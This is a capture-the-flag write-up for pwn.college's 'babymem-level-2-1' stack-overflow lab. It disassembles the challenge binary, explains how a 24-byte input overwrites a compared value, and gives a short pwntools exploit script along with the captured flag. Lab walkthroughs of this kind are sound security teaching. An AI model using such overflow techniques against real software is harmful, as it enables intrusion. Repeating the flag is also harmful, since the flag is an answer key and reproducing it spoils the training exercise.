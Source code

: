 # level2.1
## Description
Overflow a buffer on the stack to set trickier conditions to obtain the flag!
## Solution
- The challenge file's name is `babymem-level-2-1`. Running `objdump -d -M intel babymem-level-2-1` inside `/challenge` and looking at the `challenge` function:
```
00000000000019b3 <challenge>:
    19b3:       f3 0f 1e fa             endbr64
    19b7:       55                      push   rbp
    19b8:       48 89 e5                mov    rbp,rsp
    19bb:       48 83 ec 60             sub    rsp,0x60
    19bf:       89 7d bc                mov    DWORD PTR [rbp-0x44],edi
    19c2:       48 89 75 b0             mov    QWORD PTR [rbp-0x50],rsi
    19c6:       48 89 55 a8             mov    QWORD PTR [rbp-0x58],rdx
    19ca:       64 48 8b 04 25 28 00    mov    rax,QWORD PTR fs:0x28
    19d1:       00 00 
    19d3:       48 89 45 f8             mov    QWORD PTR [rbp-0x8],rax
    19d7:       31 c0                   xor    eax,eax
    19d9:       48 c7 45 e0 00 00 00    mov    QWORD PTR [rbp-0x20],0x0
    19e0:       00 
    19e1:       48 c7 45 e8 00 00 00    mov    QWORD PTR [rbp-0x18],0x0
    19e8:       00 
    19e9:       48 c7 45 f0 00 00 00    mov    QWORD PTR [rbp-0x10],0x0
    19f0:       00 
    19f1:       48 8d 45 e0             lea    rax,[rbp-0x20]
    19f5:       48 89 45 d0             mov    QWORD PTR [rbp-0x30],rax
    19f9:       48 8d 45 e0             lea    rax,[rbp-0x20]
    19fd:       48 83 c0 14             add    rax,0x14
    1a01:       48 89 45 d8             mov    QWORD PTR [rbp-0x28],rax
    1a05:       48 c7 45 c8 00 00 00    mov    QWORD PTR [rbp-0x38],0x0
    1a0c:       00 
    1a0d:       48 8d 3d f8 06 00 00    lea    rdi,[rip+0x6f8]        # 210c <_IO_stdin_used+0x10c>
    1a14:       b8 00 00 00 00          mov    eax,0x0
    1a19:       e8 42 f7 ff ff          call   1160 <printf@plt>
    1a1e:       48 8d 45 c8             lea    rax,[rbp-0x38]
    1a22:       48 89 c6                mov    rsi,rax
    1a25:       48 8d 3d ef 06 00 00    lea    rdi,[rip+0x6ef]        # 211b <_IO_stdin_used+0x11b>
    1a2c:       b8 00 00 00 00          mov    eax,0x0
    1a31:       e8 7a f7 ff ff          call   11b0 <__isoc99_scanf@plt>
    1a36:       48 8b 45 c8             mov    rax,QWORD PTR [rbp-0x38]
    1a3a:       48 89 c6                mov    rsi,rax
    1a3d:       48 8d 3d dc 06 00 00    lea    rdi,[rip+0x6dc]        # 2120 <_IO_stdin_used+0x120>
    1a44:       b8 00 00 00 00          mov    eax,0x0
    1a49:       e8 12 f7 ff ff          call   1160 <printf@plt>
    1a4e:       48 8b 55 c8             mov    rdx,QWORD PTR [rbp-0x38]
    1a52:       48 8b 45 d0             mov    rax,QWORD PTR [rbp-0x30]
    1a56:       48 89 c6                mov    rsi,rax
    1a59:       bf 00 00 00 00          mov    edi,0x0
    1a5e:       e8 1d f7 ff ff          call   1180 <read@plt>
    1a63:       89 45 c4                mov    DWORD PTR [rbp-0x3c],eax
    1a66:       83 7d c4 00             cmp    DWORD PTR [rbp-0x3c],0x0
    1a6a:       79 2c                   jns    1a98 <challenge+0xe5>
    1a6c:       e8 af f6 ff ff          call   1120 <__errno_location@plt>
    1a71:       8b 00                   mov    eax,DWORD PTR [rax]
    1a73:       89 c7                   mov    edi,eax
    1a75:       e8 56 f7 ff ff          call   11d0 <strerror@plt>
    1a7a:       48 89 c6                mov    rsi,rax
    1a7d:       48 8d 3d c4 06 00 00    lea    rdi,[rip+0x6c4]        # 2148 <_IO_stdin_used+0x148>
    1a84:       b8 00 00 00 00          mov    eax,0x0
    1a89:       e8 d2 f6 ff ff          call   1160 <printf@plt>
    1a8e:       bf 01 00 00 00          mov    edi,0x1
    1a93:       e8 28 f7 ff ff          call   11c0 <exit@plt>
    1a98:       48 8b 45 d8             mov    rax,QWORD PTR [rbp-0x28]
    1a9c:       8b 00                   mov    eax,DWORD PTR [rax]
    1a9e:       3d 2b 04 74 40          cmp    eax,0x4074042b
    1aa3:       75 0a                   jne    1aaf <challenge+0xfc>
    1aa5:       b8 00 00 00 00          mov    eax,0x0
    1aaa:       e8 fd fd ff ff          call   18ac <win>
    1aaf:       48 8d 3d b6 06 00 00    lea    rdi,[rip+0x6b6]        # 216c <_IO_stdin_used+0x16c>
    1ab6:       e8 75 f6 ff ff          call   1130 <puts@plt>
    1abb:       b8 00 00 00 00          mov    eax,0x0
    1ac0:       48 8b 4d f8             mov    rcx,QWORD PTR [rbp-0x8]
    1ac4:       64 48 33 0c 25 28 00    xor    rcx,QWORD PTR fs:0x28
    1acb:       00 00 
    1acd:       74 05                   je     1ad4 <challenge+0x121>
    1acf:       e8 7c f6 ff ff          call   1150 <__stack_chk_fail@plt>
    1ad4:       c9                      leave
    1ad5:       c3                      ret
```
```
    19d9:       48 c7 45 e0 00 00 00    mov    QWORD PTR [rbp-0x20],0x0
    19e0:       00 
    19e1:       48 c7 45 e8 00 00 00    mov    QWORD PTR [rbp-0x18],0x0
    19e8:       00 
    19e9:       48 c7 45 f0 00 00 00    mov    QWORD PTR [rbp-0x10],0x0
    19f0:       00 
```
- These instructions initialise 3 8-byte regions on the stack to 0 (from `rbp-0x20` to `rbp-0x8`).
```
19f1:       48 8d 45 e0             lea    rax,[rbp-0x20]
19f5:       48 89 45 d0             mov    QWORD PTR [rbp-0x30],rax
```
- This basically means `[rbp-0x30] = &([rbp-0x20])`, effectively means that `rbp-0x30` is storing the address of `rbp-0x20` (it's a pointer).
```
19f9:       48 8d 45 e0             lea    rax,[rbp-0x20]
19fd:       48 83 c0 14             add    rax,0x14
1a01:       48 89 45 d8             mov    QWORD PTR [rbp-0x28],rax
```
- This basically means `[rbp-0x28] = &([rbp-0x20] + 0x14)`, effectively means that `rbp-0x28` is storing the address of `rbp-0x20 + 0x14` = `rbp-0x0c`. That's a 20 byte offset. `rbp-0x28` is a pointer to a 20 byte region on the stack. This is the buffer we need to overflow.
```
1a98:       48 8b 45 d8             mov    rax,QWORD PTR [rbp-0x28]
1a9c:       8b 00                   mov    eax,DWORD PTR [rax]
1a9e:       3d 2b 04 74 40          cmp    eax,0x4074042b
1aa3:       75 0a                   jne    1aaf <challenge+0xfc>
1aa5:       b8 00 00 00 00          mov    eax,0x0
1aaa:       e8 fd fd ff ff          call   18ac <win>
```
- `rax = [rbp-0x28]`, which is a pointer to `[rbp-0xc]`.
- `mov eax, DWORD PTR [rax]` reads the 4-byte value stored at this location.
- `cmp eax, 0x4074042b` compares this value with `0x4074042b`.
- If `eax == 0x4074042b`, the `win` function is called.
- So, if we send a 24 byte payload, the last 4 bytes of which are `0x4074042b`, we will overflow the buffer and set the condition to call the `win` function.
- I wrote the following exploit script:
```python
import pwn

padding = b'A' * 20
payload = padding + pwn.p64(0x4074042b)

r = pwn.process('/challenge/babymem-level-2-1')
r.recvuntil('size:')
r.sendline('24')

r.recvuntil('bytes)!')
r.send(payload)
print(r.readall())
```
- Running the script gives the flag: `pwn.college{0UkoXN-hCrp_MYoosWhdqZXQa0h.dhTNzMDL5QTO0czW}`.